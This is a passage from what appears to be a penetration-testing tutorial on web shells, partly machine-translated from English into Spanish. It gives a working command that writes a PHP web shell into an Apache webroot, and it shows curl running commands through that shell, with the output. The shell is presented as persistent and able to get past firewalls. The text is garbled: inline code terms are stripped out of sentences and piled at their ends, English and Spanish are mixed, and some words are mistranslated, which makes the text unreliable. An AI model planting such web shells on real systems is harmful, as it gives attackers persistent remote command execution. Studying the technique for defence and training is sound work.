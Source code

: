 We can check these directories to see which webroot is in use and then use to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a shell with the following command:`echo``PHP`

Code: bash

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

---

#### Acceso a Web Shell

Una vez que escribimos nuestro shell web, podemos acceder a él a través de un navegador o usando . Podemos visitar la página en el sitio web comprometido y usar para ejecutar el comando:`cURL``shell.php``?cmd=id``id`

   

![](https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png)

Otra opción es utilizar :`cURL`

  Tipos de conchas

```shell-session
zunderrubb@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Como podemos ver, podemos seguir cambiando el comando para obtener su salida. Un gran beneficio de un shell web es que evitaría cualquier restricción de firewall en su lugar, ya que no abrirá una nueva conexión en un puerto, sino que se ejecutará en el puerto web en o , o en cualquier puerto que esté utilizando la aplicación web. Otro gran beneficio es que si se reinicia el host comprometido, el shell web seguiría en su lugar, y podemos acceder a él y obtener la ejecución de comandos sin volver a explotar el host remoto.`80``443`

Por otro lado, un shell web no es tan interactivo como los shells reverse y bind, ya que tenemos que seguir solicitando una URL diferente para ejecutar nuestros comandos. Aún así, en casos extremos, es posible codificar un script para automatizar este proceso y darnos un shell web semi-interactivo directamente dentro de nuestra terminal.`Python`